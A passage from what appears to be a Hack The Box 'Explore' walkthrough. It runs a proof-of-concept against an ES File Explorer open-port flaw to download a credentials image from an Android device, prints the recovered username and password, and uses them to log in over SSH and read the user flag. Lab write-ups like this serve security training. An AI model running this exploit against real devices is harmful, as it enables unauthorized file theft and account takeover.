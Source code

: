 ### Downloading files
- creds.jpg

```bash
╭─root@kali ~/Desktop/htb/Explore/ESFileExplorerOpenPortVuln ‹master*› 
╰─# python poc.py -g /storage/emulated/0/DCIM/creds.jpg --ip $IP  
[*] Getting file: /storage/emulated/0/DCIM/creds.jpg
        from: 10.10.10.247
[*] Server responded with: 200
[*] Writing to file: creds.jpg
```

````bash
command to view image : eog creds.jpg
````

![](https://i.imgur.com/7pcnty2.png)

## Creads
```bash
user : kristi
pass : Kr1sT!5h@Rp3xPl0r3!
```

# SSH 
-  We can get ssh with this creds ...! 

```bash
╭─root@kali ~/Desktop/htb/Explore/ESFileExplorerOpenPortVuln ‹master*› 
╰─# ssh kristi@$IP -p 2222                               
Password authentication
Password: 
:/ $ whoami
u0_a76
:/ $ uname -a
Linux localhost 4.9.214-android-x86_64-g04f9324 #1 SMP PREEMPT Wed Mar 25 17:11:29 CST 2020 x86_64
:/ $ 
```

# User

- if we check the `sdcard` dir we can see the user.txt file
```bash
:/ $ cd sdcard
:/sdcard $ ls
Alarms  DCIM     Movies Notifications Podcasts  backups   user.txt 
Android Download Music  Pictures      Ringtones dianxinos 
:/sdcard $ cat    
cat   catv
:/sdcard $ cat user.txt                                                        
f320*********************50
:/sdcard $
```
